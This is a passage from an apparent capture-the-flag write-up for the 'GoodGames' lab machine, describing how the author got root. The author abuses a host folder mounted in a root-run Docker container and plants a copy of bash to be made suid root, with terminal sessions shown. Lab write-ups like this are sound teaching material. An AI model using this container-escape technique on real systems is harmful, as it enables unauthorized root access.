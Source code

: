 ## Getting root

This one took me way too long. I tried `sudo -l`, but sudo was not present on the box. I looked around for cron jobs and files with suid set. But I did not find anything. I tried listing Docker images, but the user did not have the permission to use Docker. I tried all the password found previously, and another one I found in the website code to su as root. They all failed. I looked in the database on the box, but it only contained the user's password I already had. 

I copied LinPEAS in my web server and tried running it on the box. I went through all the findings 3 times and did not find anything I could exploit.

Eventually, I remembered the `augustus` folder in the Docker container. This should not have been there. It contained the same flag.txt file that was also on the main box. I checked if the folder was mounted in the container by adding a file and verifying if it was in the container.

```
augustus@GoodGames:~$ pwd
/home/augustus

augustus@GoodGames:~$ touch test

augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.

root@3a453ab39d3d:/tmp# ls -l /home/augustus/
total 4
-rw-r--r-- 1 1000 1000  0 Mar 11 20:58 test
-rw-r----- 1 1000 1000 33 Mar 11 19:34 user.txt
```

The file was there. Since the container ran as root, I could copy a file in the home folder, then go back to the container and changed it's permission. I used that to copy bash in my home folder in the main box. In the container, I could change it's owner to root and set the suid bit. This way, it would be executed as root in the box. 

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Mar 11 21:06:08 2022 from 172.19.0.2

augustus@GoodGames:~$ pwd
/home/augustus

augustus@GoodGames:~$ cp /bin/bash .

augustus@GoodGames:~$ ls -l
total 1148
-rwxr-xr-x 1 augustus augustus 1168776 Mar 11 21:08 bash
-rw-r--r-- 1 augustus augustus       0 Mar 11 20:58 test
-rw-r----- 1 augustus augustus      33 Mar 11 19:34 user.txt

augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.

root@3a453ab39d3d:/home/augustus# cd /home/augustus/

```